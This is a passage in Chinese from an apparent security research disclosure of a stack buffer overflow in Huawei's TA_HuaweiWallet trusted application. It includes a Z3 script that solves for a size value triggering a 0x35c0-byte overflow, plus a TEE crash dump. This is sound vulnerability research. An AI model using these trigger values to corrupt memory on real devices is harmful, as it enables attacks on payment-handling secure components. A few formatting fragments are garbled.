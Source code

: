 为了找到符合所有要求的值，我们在下面给出的 Python 脚本中使用了 Z3 求解器。运行此脚本会为我们提供 0x4924a3 的值，从而产生 0x35c0 字节。通过改变约束条件，可以获得多个工作值，从而产生不同的尺寸。indexindexsize  
```
```  
```
from z3 import *

x = BitVec('x', 32)
y = BitVec('y', 32)
n = BitVec('n', 32)
s = Solver()
s.add(x >= 0)
s.add(ULT(x * 0x2300, 292 * 0x230))
s.add(y == 0x10 * (x + 1))
s.add(y >= 0)
s.add(UGE(y, 292))
s.add(n == 0x230 * (292 - 0x10 * x))
s.add(UGE(n, 0x3000))
s.add(ULE(n, 0x4000))

print(s.check())
m = s.model()
x_val = None
for d in m.decls():
    if d.name() == 'x':
        x_val = int(str(m[d]))
    print("%s = %s" % (d.name(), m[d]))

```  
  
触发漏洞的概念验证代码会导致堆栈缓冲区溢出 0x35c0 字节，到达为堆栈分配的内存的末尾，并触发崩溃：  
```
```  
```
[HM] [ERROR][2171]vmem_as_ondemand_prepare failed
[HM] [ERROR][2496]process 1d00000028 (tid: 40) data abort: 
[HM] [ERROR][2498]Bad memory access on address: 0x6804d03, fault_code: 0x92000047
[HM] 
[HM] Dump task states for tcb
[HM] ----------
[HM]     name=[TA_HuaweiWallet] tid=40 is-idle=0 is-curr=0
[HM]     state=BLOCKED@MEMFAULT sched.pol=0 prio=46 queued=1
[HM]     aff[0]=ff
[HM]     flags=1000 smc-switch=0 ca=7392 prefer-ca=7392
[HM] Registers dump:
[HM] ----------
[HM] 32 bits userspace stack dump:
[HM] ----------
[HM] <TEE_MemMove+0x54/0x68>
[HM] <GetCardALLByIndexV2>+0x1ac/0x2ec
[HM] Dump task states END
[HM]

```  
## 堆栈缓冲区溢出genOffPayCodeSeedParam¶  
  